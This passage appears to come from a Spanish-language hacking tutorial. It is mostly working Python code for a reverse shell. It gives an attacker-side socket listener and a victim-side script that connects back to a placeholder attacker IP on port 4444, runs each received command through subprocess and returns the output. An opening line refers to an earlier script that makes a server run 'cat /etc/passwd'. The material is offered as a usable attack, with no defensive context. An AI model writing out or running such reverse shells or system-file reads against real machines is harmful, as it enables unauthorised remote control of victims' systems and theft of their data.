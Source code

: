 Este script hace que el servidor ejecute `cat /etc/passwd` y devuelve su contenido.

---

### 🧪 EJEMPLO 2: Conexión reversa con socket

**Objetivo:** Que la víctima se conecte de vuelta al atacante y se le dé una shell.

#### Código en la máquina atacante (listener):

```python
import socket
import subprocess

IP = "0.0.0.0"
PORT = 4444

s = socket.socket()
s.bind((IP, PORT))
s.listen(1)

print(f"[+] Esperando conexión en {PORT}...")
conn, addr = s.accept()
print(f"[+] Conexión recibida de {addr}")

while True:
    cmd = input("$ ")
    conn.send(cmd.encode())
    if cmd.lower() == "exit":
        break
    output = conn.recv(4096).decode()
    print(output)

conn.close()
```

##### Código que ejecuta la víctima (reverse shell):

```python
import socket
import subprocess

s = socket.socket()
s.connect(("IP_DEL_ATACANTE", 4444))

while True:
    cmd = s.recv(1024).decode()
    if cmd.lower() == "exit":
        break
    output = subprocess.getoutput(cmd)
    s.send(output.encode())

s.close()
```

---